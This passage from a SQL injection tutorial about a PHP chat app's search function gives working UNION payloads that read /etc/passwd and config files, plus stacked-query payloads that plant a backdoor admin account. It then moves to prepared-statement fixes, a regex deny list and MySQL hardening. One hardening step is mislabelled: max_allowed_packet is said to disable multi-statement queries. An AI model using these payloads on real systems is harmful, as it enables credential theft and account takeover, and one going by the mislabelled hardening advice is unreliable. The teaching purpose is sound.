CREDS_TEST_MARKER' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5,6,7 --

-- Read PHP source code
CREDS_TEST_MARKER' UNION SELECT 1,LOAD_FILE('/var/www/html/config.php'),3,4,5,6,7 --

-- Read MySQL configuration
CREDS_TEST_MARKER' UNION SELECT 1,LOAD_FILE('/etc/mysql/my.cnf'),3,4,5,6,7 --

-- The PHP source code will reveal database credentials!
```

### PoC 4: Create Backdoor Admin Account

```sql
-- If stacked queries are supported:

-- Search for:
ANCHOR_12345'; INSERT INTO users (username, password, email, role) VALUES ('backdoor_admin', 'hacker123', 'attacker@evil.com', 'admin') --

-- Or update existing admin password:
ANCHOR_12345'; UPDATE users SET password='newpassword' WHERE username='admin' --

-- Or give all users admin privileges:
ANCHOR_12345'; UPDATE users SET role='admin' WHERE 1=1 --
```

---

## Part 7: How to Fix These Vulnerabilities

### Secure PHP Implementation

```php
<?php
// secure_chat.php - SAFE IMPLEMENTATION

require_once 'config.php';

class SecureChat {
    private $pdo;
    
    public function __construct($pdo) {
        $this->pdo = $pdo;
    }
    
    // SAFE: Insert message with prepared statement
    public function sendMessage($user_id, $username, $message, $room, $ip) {
        $stmt = $this->pdo->prepare(
            "INSERT INTO messages (user_id, username, message_text, room, ip_address) 
             VALUES (?, ?, ?, ?, ?)"
        );
        
        return $stmt->execute([$user_id, $username, $message, $room, $ip]);
    }
    
    // SAFE: Search with parameterized query
    public function searchMessages($query) {
        $search_param = "%{$query}%";
        
        $stmt = $this->pdo->prepare(
            "SELECT m.id, m.username, m.message_text, m.room, m.created_at, 
                    u.email, u.role 
             FROM messages m 
             LEFT JOIN users u ON m.user_id = u.id 
             WHERE m.message_text LIKE ? 
                OR m.username LIKE ? 
             ORDER BY m.created_at DESC 
             LIMIT 50"
        );
        
        $stmt->execute([$search_param, $search_param]);
        return $stmt->fetchAll();
    }
    
    // SAFE: Input validation
    public function validateInput($input) {
        // Remove or encode dangerous characters
        $input = trim($input);
        
        // Check for SQL injection patterns (additional layer)
        $dangerous_patterns = [
            '/UNION\s+SELECT/i',
            '/ORDER\s+BY/i',
            '/SLEEP\(/i',
            '/BENCHMARK\(/i',
            '/EXTRACTVALUE\(/i',
            '/UPDATEXML\(/i',
            '/LOAD_FILE\(/i',
            '/INTO\s+OUTFILE/i',
            '/INTO\s+DUMPFILE/i',
            '/--/',
            '/;/'
        ];
        
        foreach ($dangerous_patterns as $pattern) {
            if (preg_match($pattern, $input)) {
                // Log the attempt
                $this->logAttack($_SERVER['REMOTE_ADDR'], $input);
                return false;
            }
        }
        
        return true;
    }
    
    // SAFE: Log attack attempts
    private function logAttack($ip, $payload) {
        $stmt = $this->pdo->prepare(
            "INSERT INTO attack_logs (ip_address, payload, timestamp) 
             VALUES (?, ?, NOW())"
        );
        $stmt->execute([$ip, $payload]);
    }
    
    // SAFE: Get messages with pagination
    public function getRecentMessages($limit = 20, $offset = 0) {
        $stmt = $this->pdo->prepare(
            "SELECT username, message_text, room, created_at 
             FROM messages 
             ORDER BY created_at DESC 
             LIMIT ? OFFSET ?"
        );
        $stmt->execute([$limit, $offset]);
        return $stmt->fetchAll();
    }
}

// Usage
$chat = new SecureChat($pdo);

// Validate and send message
if (isset($_POST['send_message'])) {
    $message = $_POST['message'];
    
    if ($chat->validateInput($message)) {
        $chat->sendMessage(
            $_SESSION['user_id'],
            $_SESSION['username'],
            $message,
            $_POST['room'],
            $_SERVER['REMOTE_ADDR']
        );
        echo "Message sent successfully!";
    } else {
        echo "Invalid input detected!";
    }
}

// Search messages safely
if (isset($_GET['search'])) {
    $search = $_GET['search'];
    
    if ($chat->validateInput($search)) {
        $results = $chat->searchMessages($search);
        // Display results securely
    } else {
        echo "Invalid search query!";
    }
}
?>
```

### Database Security Hardening

```sql
-- Create limited user for application
CREATE USER 'chat_app_user'@'localhost' IDENTIFIED BY 'strong_password_here';

-- Grant only necessary permissions
GRANT SELECT, INSERT ON chat_app.messages TO 'chat_app_user'@'localhost';
GRANT SELECT ON chat_app.users TO 'chat_app_user'@'localhost';

-- Revoke dangerous privileges
REVOKE FILE ON *.* FROM 'chat_app_user'@'localhost';
REVOKE CREATE, DROP, ALTER ON chat_app.* FROM 'chat_app_user'@'localhost';

-- Disable multi-statement queries
SET GLOBAL max_allowed_packet = 1048576;

-- Enable MySQL query logging for monitoring
SET GLOBAL general_log = 'ON';
SET GLOBAL log_output = 'TABLE';

-- Regular security audit query
SELECT * FROM mysql.general_log 
WHERE argument LIKE '%UNION%' 
   OR argument LIKE '%SLEEP%' 
   OR argument LIKE '%LOAD_FILE%'
ORDER BY event_time DESC 
LIMIT 50;
```

---

## Summary: What You Need to Know



**Key Takeaways:**

1. **Storing SQL in messages alone doesn't automatically execute** - The database escapes quotes during INSERT
2. **The REAL danger is the search function** - If search concatenates user input into SELECT queries
3. **Stored messages help attackers** by providing unique anchors for their injection payloads
4. **Combined attack**: Store a unique message → Search with anchor + SQL injection = data extraction
5. **Always use prepared statements** for ALL queries - INSERT, SELECT, UPDATE, DELETE
6. **Test your search function** - It's the most likely injection point in chat apps
7. **Monitor for UNION, SLEEP, EXTRACTVALUE** patterns in search queries
8. **The time-based blind injection via search is hardest to detect** but slowest to exploit

Remember: In your chat app, the **search function is the primary vulnerability**, not the message storage. The stored messages just provide convenient anchor points for the search injection attacks.
